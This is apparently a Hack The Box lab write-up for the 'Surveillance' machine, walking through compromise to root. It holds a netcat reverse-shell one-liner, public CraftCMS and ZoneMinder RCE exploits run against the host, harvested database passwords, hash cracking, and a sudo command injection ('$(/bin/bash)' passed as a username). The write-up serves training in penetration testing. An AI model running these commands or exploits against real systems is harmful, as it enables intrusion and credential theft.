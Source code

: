```yaml
---
name: Surveillance
difficulty: Medium
os: Linux
thumbnail: https://labs.hackthebox.com/storage/avatars/d2ddffcb2eced6a4d5486dc99d440d1a.png
active: false
---
```


Starting off with the nmap:
```bash
Nmap scan report for surveillance.htb (10.10.11.245)
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the website we don't find anything too interesting.

When we enumerate directories we can find `/admin`

```bash
$ ffuf -u http://surveillance.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o ffuf.out

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://surveillance.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Output file      : ffuf.out
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 47ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 61ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 59ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 43ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 325ms]
```

## CraftCMS

Navigating to [http://surveillance.htb/](http://surveillance.htb/) brings us to a CraftCMS login page.

![](/images/htb/surveillance/craftCMSLogin.png)

Quick Google on CraftCMS and you'll find `CVE-2023-41892`, an unauthenticated RCE: [https://blog.calif.io/p/craftcms-rce](https://blog.calif.io/p/craftcms-rce]
Here's a POC we can use, though the shell is pretty bad so I used it to make a new one: [https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce)

```bash
$ python3 CVE-2023-41892.py http://surveillance.htb
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ rm -f /tmp/cinder;mknod /tmp/cinder p;cat /tmp/cinder|/bin/sh -i 2>&1|nc 10.10.15.64 4444 >/tmp/cinder
```

```bash
$ whoami
www-data
```

We can now run linpeas to get some good information.

Some interesting env vars
```bash
-rw-r--r-- 1 www-data www-data 836 Oct 21 18:32 /var/www/html/craft/.env
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
```

Password for ZoneMinder
```bash
-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
       public $test = array(
                'datasource' => 'Database/Mysql',
                'persistent' => false,
                'host' => 'localhost',
                'login' => 'zmuser',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
        );
```

We can look through the database when signing in as craftuser:
```bash
mysql -u craftuser -p
Enter password: CraftCMSPassword2023!
> use craftdb;
> select * from users;
| username | fullName  | email                  | password                                                     |
|----------|-----------|------------------------|--------------------------------------------------------------|
| admin    | Matthew B | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
```

We can try and crack it with hashcat, but it doesn't get any matches. After enumerating the craftdb files you can easily find an old backup of the database.
```bash
$ ls ~/html/craft/storage/backups
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Inside you'll find the same tables, same user, but instead with an older hash. Go ahead and crack it with hashcat:
```bash
hashcat -m 1400 -a 0 '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec' /usr/share/wordlist/rockyou.txt
starcraft122490
```

## User matthew

Now that we have Matthew's password we can finally ssh into the machine:
```bash
$ ssh matthew@surveillance.htb
matthew@surveillance.htb's password: starcraft122490
```

Now I need to enumerate more, `sudo -l` doesn't give us anything.

If you look at active ports or the nginx config, you'll find port `8080` operates the ZoneMinder web panel.
```bash
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can forward this port now that we have ssh:
```bash
$ ssh -L 8080:localhost:8080 matthew@surveillance.htb
```

Navigating to [http://localhost:8080/](http://localhost:8080/) shows us the ZoneMinder login panel. The user/pass is:
`User: admin`
`Pass: starcraft122490`

![](/images/htb/surveillance/zmPanel.png)

Looking at the panel you can see that it's running version 1.36.32 which is weak to `CVE-2023–26035`.
This is another unauthenticated RCE, letting you craft a CRFS token and exploit a vulnerable API endpoint.

We can use a public POC for this, similar to CraftCMS to create a reverse shell: [https://github.com/rvizx/CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)
```bash
python3 exploit.py -t http://127.0.0.1:8080/ -ip 10.10.15.64 -p 4444
[+] fetching csrf token
[+] received the token: key:a1e0b6f7f41cd10f65ac4ac73dc37cadf231ac6_1702352826
[+] executing...
[+] sending payload...
$ whoami
zoneminder
```

# User zoneminder
Again trying for `sudo -l` we find this binary:
```bash
$ sudo -l
User zoneminder may run the following commands on surveillance:
	(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

So we'll start to look for a privilege escalation. Let's see what files are available:
```bash
$ ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl       /usr/bin/zmcamtool.pl     /usr/bin/zmcontrol.pl     /usr/bin/zmdc.pl          /usr/bin/zmfilter.pl
/usr/bin/zmonvif-probe.pl /usr/bin/zmpkg.pl         /usr/bin/zmrecover.pl     /usr/bin/zmstats.pl       /usr/bin/zmsystemctl.pl
/usr/bin/zmtelemetry.pl   /usr/bin/zmtrack.pl       /usr/bin/zmtrigger.pl     /usr/bin/zmupdate.pl      /usr/bin/zmvideo.pl
/usr/bin/zmwatch.pl       /usr/bin/zmx10.pl
```

We can grep for keywords like `system`, `exec`, `qx` to find an injection. `zmupdate.pl` calls `qx()` which we can use to inject.
Vulnerable code:
```perl
    my $command = 'mysqldump';
    if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
    }
    elsif ($dbUser) {
        $command .= ' -u' . $dbUser;
        $command .= ' -p\'' . $dbPass . '\'' if $dbPass;
    }
    if ( defined($portOrSocket) ) {
        if ( $portOrSocket =~ /^\// ) {
            $command .= ' -S' . $portOrSocket;
        }
        else {
            $command .= ' -h' . $host . ' -P' . $portOrSocket;
        }
    }
    else {
        $command .= ' -h' . $host;
    }
    my $backup = '/tmp/zm/' . $Config{ZM_DB_NAME} . '-' . $version . '.dump';
    $command .=
      ' --add-drop-table --databases ' . $Config{ZM_DB_NAME} . ' > ' . $backup;
    print("Creating backup to $backup. This may take several minutes.\n");
    ($command) = $command =~ /(.*)/;    # detaint
```

After understanding how `zmupdate.pl` works, we can figure out what parameters it requires.
The `-u (user)` is the route of our injection, which we can use to simply spawn a shell and escalate.
```bash
$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(/bin/bash)'
$ whoami
root
```